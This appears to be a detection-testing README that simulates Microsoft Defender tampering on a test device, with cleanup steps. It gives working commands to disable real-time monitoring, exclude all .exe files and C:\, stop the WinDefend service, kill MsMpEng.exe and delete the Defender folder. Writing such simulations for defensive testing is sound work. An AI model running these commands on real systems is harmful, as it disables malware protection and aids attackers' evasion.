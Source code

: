 # Defender AV Tampering Detection

Microsoft Defender AV Tampering is a technique where attackers disable or interfere with Microsoft Defender Antivirus to avoid detection of their malicious tools and activities. This may involve killing Defender processes, modifying registry keys, or blocking updates, which disrupts security scanning and prevents the latest security protections from being applied.

## Simulation

Run the following commands in PowerShell / Windows Command Prompt on a test device

1. PowerShell: Detect
1. Registry Key: Detect
1. Stop Service, Stop process, Delete folder :Prevent

---

### Attack using Powershell

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -MAPSReporting 0
Set-MpPreference -ExclusionExtension "exe" -ExclusionPath "C:\"
```

#### Cleanup - Commands in PowerShell

```powershell
Set-MpPreference -DisableRealtimeMonitoring $false
Set-MpPreference -MAPSReporting 2
Remove-MpPreference -ExclusionExtension "exe" -ExclusionPath "C:\"
```

> *Script:* [download](Tamper-DefenderService.ps1)

---

### Attack using Registry

```dos
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "exe" /t REG_SZ /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /v "C:\\" /t REG_SZ /d "" /f
```

#### Cleanup - Commands for Registry

```dos
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /f
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /f
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "exe" /f
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /v "C:\" /f
```

### Attack using SC & NET

```dos
sc stop WinDefend
net stop WinDefend
```

### Attack - Run the commands in Windows cmd

```dos
taskkill /IM MsMpEng.exe /F
rem Attack - Run the commands in Windows cmd
rmdir /s /q "C:\Program Files\Windows Defender"
```

## Detection